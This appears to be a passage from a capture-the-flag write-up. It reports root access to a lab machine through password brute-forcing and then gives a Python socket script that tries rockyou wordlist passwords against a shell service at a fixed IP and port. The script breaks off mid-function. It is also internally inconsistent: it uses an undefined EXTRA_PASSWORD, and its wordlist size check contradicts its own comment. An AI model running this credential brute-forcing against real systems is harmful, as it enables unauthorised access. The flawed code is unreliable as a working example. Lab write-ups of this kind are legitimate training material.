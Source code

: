
## Outcome

Full root access was achieved via brute-forcing credentials and exploiting the exposed shell interface. The machine's weakness was its reliance on simple password authentication with no lockout mechanism.

---

## Tools Used

- `nc`
- Python 3
- Custom script with socket library
- `rockyou-75.txt` (subset of common leaked passwords)

---

## Solve script:


```import socket
import time
import sys

# Configuration
HOST = "10.10.102.10"
PORT = 8000
WORDLIST = "/home/marv1nh/SecLists/Passwords/Leaked-Databases/rockyou-75.txt"
TIMEOUT = 5  # Seconds for socket timeout
DELAY = 1.0  # Seconds between attempts
RECV_BUFFER = 4096  # Bytes to receive

def load_wordlist():
    """Load passwords from rockyou-75.txt and add extra password."""
    try:
        with open(WORDLIST, "r", encoding="utf-8") as f:
            passwords = [line.strip() for line in f if line.strip()]
        if len(passwords) > 100000000000:  # Allow slight variation from 75
            print(f"[-] Error: Wordlist has {len(passwords)} entries, expected ~75 for rockyou-75.txt")
            print("[-] Likely using rockyou.txt or incorrect file. Please use the correct rockyou-75.txt.")
            sys.exit(1)
        passwords.append(EXTRA_PASSWORD)
        return passwords
    except FileNotFoundError:
        print(f"[-] Error: Wordlist not found at {WORDLIST}")
        print("[-] Please ensure SecLists is installed or provide the correct path.")
        sys.exit(1)
    except Exception as e:
        print(f"[-] Error loading wordlist: {e}")
        sys.exit(1)

def try_password(password):
    """Send 'admin' and password, check for Password: prompt and response."""
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(TIMEOUT)
        try:
            s.connect((HOST, PORT))
            # Send 'admin'
            s.sendall(b"admin\n")
            time.sleep(0.2)  # Wait for prompt
            # Receive prompt
```